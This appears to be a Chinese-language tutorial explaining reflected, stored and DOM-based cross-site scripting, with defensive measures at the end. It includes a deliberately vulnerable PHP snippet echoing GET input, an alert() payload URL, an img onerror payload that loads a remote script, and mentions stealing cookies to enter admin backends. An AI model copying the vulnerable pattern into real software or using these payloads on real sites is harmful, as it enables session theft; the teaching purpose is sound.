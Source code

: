 # XSS跨站脚本攻击
跨站脚本攻击`XSS`，是最普遍的`Web`应用安全漏洞。这类漏洞能够使得攻击者嵌入恶意脚本代码到正常用户会访问到的页面中，当正常用户访问该页面时，则可导致嵌入的恶意脚本代码的执行，从而达到恶意攻击用户的目的。

## 类型

* 反射型`XSS`： 攻击者事先制作好攻击链接,需要欺骗用户自己去点击链接才能触发`XSS`代码，所谓反射型`XSS`就是将恶意用户输入的`js`脚本，反射到浏览器执行。

* 存储型`XSS`：代码是存储在服务器中的，如在个人信息或发表文章等地方，加入代码，如果没有过滤或过滤不严，那么这些代码将储存到服务器中，每当有用户访问该页面的时候都会触发代码执行，这种`XSS`非常危险，容易造成蠕虫，大量盗窃`cookie`，也被称为持久型`XSS`。

* `DOM`型`XSS`：类似于反射型XSS，但这种`XSS`攻击的实现是通过对`DOM`树的修改而实现的。

## 原理
当动态页面中插入的内容含有这些特殊字符如`<`时，用户浏览器会将其误认为是插入了`HTML`标签，当这些`HTML`标签引入了一段`JavaScript`脚本时，这些脚本程序就将会在用户浏览器中执行。当这些特殊字符不能被动态页面检查或检查出现失误时，就将会产生`XSS`漏洞。  

攻击者可以使用户在浏览器中执行其预定义的恶意脚本，劫持用户会话，插入恶意内容、重定向链接、使用恶意软件劫持用户浏览器等等。

基于反射型`XSS`漏洞，欺骗用户点击以执行`js`代码，可以盗取`cookie`等。

```php
// 直接将输入打印到页面，造成XSS
<?php 
$XssReflex = $_GET['i'];
echo $XssReflex;
```

```html
<!-- 构造url，点击后就可以执行js代码 -->
http://127.0.0.1/xss.php?i=<script>alert("run javascript");</script>
```

基于存储型`XSS`漏洞，将`js`代码存储于服务器数据库中，服务器直接查询数据库数据显示到页面，即造成`XSS`  
最经典的存储型`XSS`漏洞是留言板，当用户A在留言板留言一段`JS`代码`<script>alert("run javascript");</script>`,后端未经过滤直接存储到数据库，当正常用户浏览到他的留言后，这段`JS`代码就会被执行，可以借此来盗取`cookie`。

```
graph LR
恶意用户A --> 构造JS代码
构造JS代码 --> 服务器数据库
服务器数据库 --> 正常用户B显示页面
服务器数据库 --> 正常用户C显示页面
服务器数据库 --> 正常用户...显示页面
正常用户B显示页面 --> 执行js盗取cookie
正常用户C显示页面 --> 执行js盗取cookie
正常用户...显示页面 --> 执行js盗取cookie
```

基于`DOM`的型`XSS`漏洞类似于反射型`XSS`，但其变化多端，总之一句话，各种姿势，各种插，只要能执行我的`Js`  ，利用`<script>`、`<img>`等标签允许跨域请求资源。  
经典案例是可以将标签写入到软件的意见反馈中，当管理员查看留言的反馈即触发`XSS`，传递`cookie`与后台管理地址后就可以登录到后台了。

```html
<script scr="js_url"></script>
```
```html
<img src=1 onerror=appendChild(createElement('script')).src='js_url' />
```

## 防御
* 在用户提交参数前，将提交的字符`<` 、`>`、`&`、`"` 、`'` 、`+`、`/`等进行转义，严格控制输出。
* 将输入转化为小写对比`javascript:`，若匹配则过滤。
* 将`cookie`设置为`http-only`,`js`脚本将无法读取到`cookie`信息。
* 纯前端渲染，明确`innerText`、`setAttribute`、`style`，将代码与数据分隔开。
* 避免不可信的数据拼接到字符串中传递给这些`API`，如`DOM`中的内联事件监听器，`location`、`onclick`、`onerror`、`onload`、`onmouseover`等，`<a>`标签的`href`属性，`JavaScript`的`eval()`、`setTimeout()`、`setInterval()`等，都能把字符串作为代码运行。
* 对于不受信任的输入，都应该限定一个合理的长度。
* 严格的`CSP`,禁止加载外域代码，禁止外域提交，禁止内联脚本执行等较为严格的方式。

## 每日一题

```
https://github.com/WindrunnerMax/EveryDay
```

